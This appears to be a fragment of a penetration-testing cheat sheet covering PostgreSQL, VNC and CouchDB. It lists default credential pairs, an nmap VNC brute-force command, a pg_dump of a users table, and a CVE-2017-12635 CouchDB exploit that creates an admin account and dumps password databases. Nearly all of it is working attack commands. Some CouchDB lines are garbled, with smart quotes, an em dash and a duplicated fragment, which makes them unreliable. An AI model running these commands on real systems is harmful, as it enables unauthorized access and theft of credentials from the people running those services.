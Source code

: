 <br>

### 5432 - PostgreSQL
---

```bash
psql -h 10.10.1.111 -U postgres -W

# Default creds
postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

pg_dump --host=10.10.1.111 --username=postgres --password --dbname=template1 --table='users' -f output_pgdump
```

<br>

### 5900 - VNC
---

```bash
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111
```

<br>

### 5984 - CouchDB
---

```bash
curl http://example.com:5984/
curl -X GET http://IP:5984/_all_dbs
curl -X GET http://user:password@IP:5984/_all_dbs

# CVE-2017-12635 RCE

# Create user
curl -X PUT ‘http://localhost:5984/_users/org.couchdb.user:chenny' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’

# Dump database
curl http://127.0.0.1:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword

# Dump passwords
curl -X GET http://user:passwords@localhost:5984/passwords
```

<br>
